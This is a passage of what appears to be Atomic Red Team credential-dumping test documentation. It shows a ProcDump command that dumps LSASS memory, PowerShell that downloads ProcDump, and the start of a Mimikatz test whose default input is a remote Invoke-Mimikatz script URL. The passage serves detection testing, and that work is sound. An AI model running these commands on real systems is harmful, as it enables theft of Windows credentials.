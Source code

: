 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"#{procdump_exe}" -accepteula -mm lsass.exe #{output_file}
```

#### Cleanup Commands:

```cmd
del "#{output_file}" >nul 2> nul
```

#### Dependencies: Run with `powershell`!

##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```

<br/>
<br/>

## Atomic Test #10 - Powershell Mimikatz

Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution.
Or, if you try to run the test without the required administrative privileges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"

**Supported Platforms:** Windows

**auto_generated_guid:** 66fb0bc1-3c3f-47e9-a298-550ecfefacbc

#### Inputs:

| Name          | Description                                            | Type | Default Value                                                                                                                           |
| ------------- | ------------------------------------------------------ | ---- | --------------------------------------------------------------------------------------------------------------------------------------- |
| remote_script | URL to a remote Mimikatz script that dumps credentials | url  | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1 |
